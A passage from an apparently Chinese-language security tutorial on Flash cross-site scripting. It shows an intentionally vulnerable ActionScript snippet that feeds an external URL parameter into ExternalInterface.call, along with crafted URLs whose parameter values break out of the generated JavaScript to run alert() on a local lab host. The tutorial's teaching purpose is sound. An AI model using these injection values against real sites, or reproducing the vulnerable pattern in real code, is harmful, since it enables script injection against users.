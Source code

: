 大致意思就是从外部获取了一个参数，通过navigateToURL调用。

运行结果：

![enter image description here](http://drops.javaweb.org/uploads/images/33f93de920c8bd1239f9e15f0b651a80efed9200.jpg)

**Flash缺陷参数-ExternalInterface.call(参数一)**

ExternalInterface.call同样是一个Flash提供的可以执行js的接口函数， ExternalInterface.call函数有两个参数，形如ExternalInterface.call("函数名","参数1")。

Flash最后执行的JS代码如下：

```
try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }

```

此段先考虑参数1，即函数名。

Wooyun上相关的实例有：

[WooYun: [腾讯实例教程] 那些年我们一起学XSS - 15. Flash Xss进阶 [ExternalInterface.call第一个参数]](http://www.wooyun.org/bugs/wooyun-2012-016532)

[WooYun: Flash应用安全系列[1]--360反射型跨站](http://www.wooyun.org/bugs/wooyun-2013-017013)

这两篇都写的很详细。

本着学习的原则，本地搭建实践了下： Flash文件：

```
var a:String = root.loaderInfo.parameters.func
if(ExternalInterface.available){
    ExternalInterface.call(a)
} else {
    trace(100)
}
stop()

```

从外部获取参数func，使用ExternalInterface.call接收第一个参数，执行。

对比：

```
try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }

```

创建url：

```
http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}//

```

这样实际执行的js代码为：

```
try { __Flash__toXML(alert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }

http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//

try { __Flash__toXML(a1lert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }

```
